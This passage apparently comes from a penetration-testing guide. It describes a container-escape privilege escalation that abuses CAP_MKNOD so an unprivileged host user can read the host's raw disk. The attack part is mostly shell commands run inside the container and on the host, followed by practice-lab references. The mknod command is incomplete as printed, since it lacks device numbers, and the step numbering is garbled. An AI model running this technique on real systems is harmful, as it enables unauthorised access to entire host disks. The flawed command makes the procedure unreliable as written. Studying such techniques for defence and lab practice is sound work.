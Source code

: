 This capability permits to do privilege escalations (through full disk read) on the host, under these conditions:

1. Have initial access to the host (Unprivileged).
2. Have initial access to the container (Privileged (EUID 0), and effective `CAP_MKNOD`).
3. Host and container should share the same user namespace.

**Steps :**

1. On the host, as a standard user:
   1. Get the current UID (`id`). For example: `uid=1000(unprivileged)`.
   2. Get the device you want to read. For exemple: `/dev/sda`
2. On the container, as `root`:

```bash
# Create a new block special file matching the host device
mknod /dev/sda b
# Configure the permissions
chmod ug+w /dev/sda
# Create the same standard user than the one on host
useradd -u 1000 unprivileged
# Login with that user
su unprivileged
```

1. Back on the host:

```bash
# Find the PID linked to the container owns by the user "unprivileged"
# Example only (Depends on the shell program, etc.). Here: PID=18802.
$ ps aux | grep -i /bin/sh | grep -i unprivileged
unprivileged        18802  0.0  0.0   1712     4 pts/0    S+   15:27   0:00 /bin/sh
```

```bash
# Because of user namespace sharing, the unprivileged user have access to the container filesystem, and so the created block special file pointing on /dev/sda
head /proc/18802/root/dev/sda
```

The attacker can now read, dump, copy the device /dev/sda from unprivileged user.

## References

**Most of these examples were taken from some labs of** [**https://attackdefense.pentesteracademy.com/**](https://attackdefense.pentesteracademy.com), so if you want to practice this privesc techniques I recommend these labs.

**Other references**:

* [https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-linux](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-linux)
* [https://www.schutzwerk.com/en/43/posts/linux\_container\_capabilities/#:\~:text=Inherited%20capabilities%3A%20A%20process%20can,a%20binary%2C%20e.g.%20using%20setcap%20.](https://www.schutzwerk.com/en/43/posts/linux\_container\_capabilities/)
* [https://linux-audit.com/linux-capabilities-101/](https://linux-audit.com/linux-capabilities-101/)
* [https://www.linuxjournal.com/article/5737](https://www.linuxjournal.com/article/5737)
* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/excessive-capabilities#cap\_sys\_module](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/excessive-capabilities#cap\_sys\_module)
* [https://labs.withsecure.com/publications/abusing-the-access-to-mount-namespaces-through-procpidroot](https://labs.withsecure.com/publications/abusing-the-access-to-mount-namespaces-through-procpidroot)
